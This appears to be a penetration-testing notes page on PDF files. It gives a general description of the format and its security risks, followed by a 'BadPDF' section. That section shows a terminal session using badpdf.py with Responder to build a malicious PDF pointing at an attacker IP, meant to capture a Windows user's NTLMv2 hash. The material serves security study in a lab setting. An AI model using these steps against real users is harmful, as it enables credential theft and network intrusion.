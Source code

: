 ```yaml
---
layout:
  width: default
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
  metadata:
    visible: true
---
```


# PDF

The PDF file type, short for Portable Document Format, is a platform-independent standard developed to present documents consistently across different systems, regardless of hardware, operating system, or software environment. A PDF encapsulates text, images, vector graphics, annotations, form fields, and metadata into a single file, preserving layout and design exactly as intended. This consistency has made PDF the dominant format for electronic documents in business, legal, academic, and government contexts.

Internally, a PDF is structured around a sequence of objects defined in a self-describing syntax, managed by a cross-reference table that enables random access to its contents. The format supports advanced features such as embedded fonts, digital signatures, encryption, JavaScript, and interactive elements like forms and multimedia. While these capabilities make PDFs highly flexible, they also introduce security concerns. Embedded scripts, file attachments, and poorly implemented parser logic have historically been leveraged to deliver malicious content or trigger vulnerabilities.

## BadPDF

For Windows targets, we can create and upload a malicious PDF file and attempt to steal the user's NTMLv2 hash using [`badpdf.py`](https://github.com/deepzec/Bad-Pdf):

{% code overflow="wrap" %}
```bash
$ sudo python2 badpdf.py                                                                                                                                                                                                                   

Responder detected :/usr/sbin/responder
Please enter Bad-PDF host IP: 
10.10.14.2
Please enter output file name: 
malicious.pdf
Please enter the interface name to listen(Default eth0): 
tun0
[*] Starting Process.. [*]
Bad PDF malicious.pdf created
```
{% endcode %}
